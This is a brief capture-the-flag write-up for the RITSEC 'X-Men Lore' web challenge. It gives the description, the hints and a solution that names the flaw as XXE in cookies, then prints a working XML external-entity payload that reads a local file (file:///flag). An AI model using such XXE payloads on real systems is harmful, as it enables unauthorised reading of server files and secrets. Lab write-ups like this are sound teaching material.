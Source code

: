# X-Men Lore [259 pts]

**Category:** We
**Solves:** 186

## Description
>b"The 90s X-Men Animated Series is better than the movies. Change my mind.\r\n\r\nhttps://xmen-lore-web.challenges.ctf.ritsec.club/"

**Hint**
* b"The flag is in its own file, it shouldnt be too hard to find. Once youre in, try to read the flags\n* The flag file does not have a file extension"

## Solution
```
XXE in cookies
<!--?xml version='1.0' encoding='UTF-8'?>--><!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag"> ]><input><xmen>&ent;</xmen></input>
```

### Flag

